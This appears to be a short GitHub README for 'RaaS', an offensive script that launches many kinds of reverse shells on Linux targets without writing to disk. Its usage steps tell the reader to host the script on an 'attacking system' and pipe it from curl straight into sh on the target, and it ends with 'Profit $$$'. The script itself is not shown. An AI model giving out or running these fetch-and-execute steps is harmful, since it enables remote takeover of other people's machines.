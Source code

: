 # RaaS
Reverse shell as a Service script that executes all the different reverse shells on Linux systems without touching disk on the target system.

# Usage
1. Change IP and PORT variables accordingly

2. Host the file on your attacking system

   $ python3 -m http.server 8080

3. Grab the file using curl and execute it directly

   $ curl http://127.0.0.1:8080 | sh

4. Profit $$$
